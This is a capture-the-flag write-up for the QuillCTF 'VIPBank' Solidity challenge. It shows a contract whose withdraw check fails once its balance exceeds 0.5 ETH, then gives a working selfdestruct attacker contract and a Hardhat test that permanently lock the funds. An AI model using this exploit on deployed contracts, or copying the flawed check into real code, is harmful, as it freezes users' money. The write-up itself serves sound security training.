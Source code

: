 # QuillCTF 2: VIPBank

> Often something that appears safe isn't safe at all.”

**Objective of CTF:**

- At any cost, lock the VIP user balance forever into the contract.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

contract VIPBank {
  address public manager;
  mapping(address => uint) public balances;
  mapping(address => bool) public VIP;
  uint public maxETH = 0.5 ether;

  constructor() {
    manager = msg.sender;
  }

  modifier onlyManager() {
    require(msg.sender == manager, "you are not manager");
    _;
  }

  modifier onlyVIP() {
    require(VIP[msg.sender] == true, "you are not our VIP customer");
    _;
  }

  function addVIP(address addr) public onlyManager {
    VIP[addr] = true;
  }

  function deposit() public payable onlyVIP {
    require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
    balances[msg.sender] += msg.value;
  }

  function withdraw(uint _amount) public onlyVIP {
    require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
    require(balances[msg.sender] >= _amount, "Not enough ether");
    balances[msg.sender] -= _amount;
    (bool success, ) = payable(msg.sender).call{value: _amount}("");
    require(success, "Withdraw Failed!");
  }

  function contractBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

## The Attack

The key bug within this contract is the requirement of `address(this).balance <= maxETH` at the first line under `withdraw` function. This basically means that if at any point the contract has a balance higher than `maxETH`, no one will be able to `withdraw`.

This is a problem on it's own, but the authors have decided to limit how much one can deposit within the `deposit` function. Furthermore, only the VIP are allowed to deposit, so these people are unlikely to attack the contract in such a way.

However, there is another way to send ether to this contract: using `selfdestruct(address)`. Self-destructing a contract deletes the bytecode from the chain, and transfers all the funds within a contract to the given address.

We can bypass the `deposit` constraints by self-destructing a dummy contract with enough funds (more than `maxETH`), such that they are transferred to this victim contract. After that, no one will be able to withdraw!

## Proof of Concept

The attacker contract is as follows:

```solidity
contract VIPBankAttacker {
  constructor(address payable targetAddr) payable {
    require(msg.value > 0.5 ether, "need more than 0.5 ether to attack");

    // self destruct to forcefully send ether to target
    selfdestruct(targetAddr);
  }
}
```

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('QuillCTF 2: VIP Bank', () => {
  let contract: VIPBank;
  let attackerContract: VIPBankAttacker;
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('VIPBank', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('should add VIP & deposit some funds', async () => {
    await contract.addVIP(owner.address);
    await contract.deposit({value: parseEther('0.025')});
  });

  it('should lock funds', async () => {
    attackerContract = await ethers
      .getContractFactory('VIPBankAttacker', attacker)
      .then(f => f.deploy(contract.address, {value: parseEther('0.51')}));
    await attackerContract.deployed();

    await expect(contract.withdraw(parseEther('0.001'))).to.be.revertedWith(
      'Cannot withdraw more than 0.5 ETH per transaction'
    );
  });
});
```
